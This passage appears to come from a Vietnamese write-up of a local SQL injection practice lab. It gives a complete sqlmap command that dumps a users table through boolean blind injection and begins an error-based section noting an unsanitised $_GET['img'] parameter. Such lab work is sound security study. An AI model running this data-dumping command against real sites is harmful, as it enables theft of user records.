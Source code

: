 ![alt text](./src/image-14.png)
=> Tìm thây 3 bảng trong database `sql_injection`
Trích xuất data từ bảng user
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/post-blind-boolean/" --data "search=iphone11" --random-agent --technique=B -D sql_injection -T users --dump --batch
```
![alt text](./src/image-15.png)
### 3.4 Error-Based Blind SQL Injection (Use SQL injection to find existing database records.)
Check qua source code thì thấy untrusted data nằm ở biến $_GET['img'] mà biến này lại đưa trực tiếp trong câu truy vấn SQL mà không được kiểm tra .
![alt text](./src/image-18.png)
